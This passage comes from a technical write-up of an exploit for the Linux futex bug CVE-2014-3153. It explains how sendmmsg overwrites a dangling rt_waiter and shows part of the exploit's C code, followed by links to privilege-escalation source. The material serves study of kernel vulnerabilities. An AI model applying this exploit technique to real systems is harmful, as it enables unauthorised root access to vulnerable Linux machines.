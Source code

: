 There are many interesting things to look at from this experiment. Let's go over it.

Just as before, I store `rt_waiter`'s address. Upon `___sys_sendmmsg` I continue the execution until the function is about to exit.
However, because the function is blocking, I have to interrupt the debugger with a `^C`.
Once the function blocks, it had already filled the `iovstack`.
After I do that, I browse the waiter struct and I see that the overwrite occured just as I wanted it to.

![Waiter Overwritten Image]
<p style="text-align: center; font-style: italic"><small>(In reality there's only a single waiter)</small></p>

That's great! We can now overwrite the dangling waiter's memory.

Let's review this as a whole within the the exploit code.
```c
void *forge_waiter(void *arg)
{
    puts(USERLOG "Placing the fake waiter on the dangling node within the mutex's waiters list.");

    setup_msgs();
    setup_sockets();
    assert(!fwait_requeue(&non_pi_futex, &pi_futex, 0));
    assert(!sendmmsg(client_sockfd, &msgvec, 1, 0));
}

int main()
{
    pthread_t forger, ref_holder;

    lock_pi_futex(NULL);

    assert(!pthread_create(&forger, NULL, forge_waiter, NULL));
    sleep(1);

    assert(frequeue(&non_pi_futex, &pi_futex, 1, 0) == 1);

    assert(!pthread_create(&ref_holder, NULL, lock_pi_futex, NULL));
    sleep(1);

    pi_futex = 0;
    frequeue(&pi_futex, &pi_futex, 1, 0);
    ...
}
```
We've already reviewed `setup_msg()`, `setup_sockets()`, and `fwait_requeue()` would block until the self-requeue is triggered.
First thing when it exits, `sendmmsg()` is called to overwrite the waiter, which also blocks.

You could see that I create another thread called `ref_holder` which also attempts to lock `pi_futex` which in turns forms another waiter instance.
The reason this is needed is because the state of the futex would get destroyed if there aren't any contending waiters on the lock.


[challenge]: https://github.com/elongl/pwnable.kr/tree/master/syscall
[Linux Kernel Development]: https://books.google.co.il/books/about/Linux_Kernel_Development.html?id=3MWRMYRwulIC
[Linux Kernel Image]: https://i.imgur.com/vJP3B8i.png
[CVE-2014-3153]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3153
[man futex(2)]: https://man7.org/linux/man-pages/man2/futex.2.html
[man futex(7)]: https://man7.org/linux/man-pages/man7/futex.7.html
[Priority Inheritance]: https://en.wikipedia.org/wiki/Priority_inheritance 
[`plist`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/plist.h
[Priority List Image]: https://i.imgur.com/IBxItuz.png
[bug fix commit]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e9c243a5a6de0be8e584c604d353412584b592f8
[summary of them]: https://github.com/elongl/CVE-2014-3153/blob/master/notes.md#data-structures
[`rt_mutex_start_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L962
[`rt_mutex_finish_proxy_lock()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L1033
[`task_blocks_on_rt_mutex()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/rtmutex.c#L405
[`futex_requeue()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1264
[`futex_wait_requeue_pi()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L2285
[`futex_proxy_trylock_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L1202
[`futex_lock_pi_atomic()`]: https://elixir.bootlin.com/linux/v3.11.4/source/kernel/futex.c#L718
[Bugged Waiter Image]: https://i.imgur.com/Dael9DR.png
[Recap Image]: https://i.imgur.com/0qp366z.png
[atomically]: https://wiki.osdev.org/Atomic_operation
[`cred`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/cred.h#L102
[capabilities]: https://man7.org/linux/man-pages/man7/capabilities.7.html
[GCC releases]: https://gcc.gnu.org/releases.html
[Linux kernel version]: https://en.wikipedia.org/wiki/Linux_kernel_version_history
[futex wrappers]: https://github.com/elongl/CVE-2014-3153/blob/master/futex.c
[Kernel Crash Video]: https://youtu.be/DxPt1MNPDpY
[`___sys_sendmsg()`]: https://elixir.bootlin.com/linux/v3.11.4/source/net/socket.c#L1976
[`man sendmmsg(2)`]: https://man7.org/linux/man-pages/man2/sendmmsg.2.html
[Waiter Overwritten Image]: https://i.imgur.com/npV3oAT.png
[`task_struct`]: https://elixir.bootlin.com/linux/v3.11.4/source/include/linux/sched.h#L1027
[`thread_info`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L25
[Crafted Waiter Image]: https://i.imgur.com/5HtvkBq.png
[New Waiter Image]: https://i.imgur.com/uAJDaJF.png
[`leak_thread_info()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L138
[`current_thread_info()`]: https://elixir.bootlin.com/linux/v3.11.4/source/arch/x86/include/asm/thread_info.h#L174
[`escalate_priv()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L123
[`escalate_priv_sighandler`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L95
[`sigaction()`]: https://man7.org/linux/man-pages/man2/sigaction.2.html
[`clone()`]: https://man7.org/linux/man-pages/man2/clone.2.html
[`kmemcpy()`]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c#L40
[exploit]: https://github.com/elongl/CVE-2014-3153/blob/master/privilege_escalation.c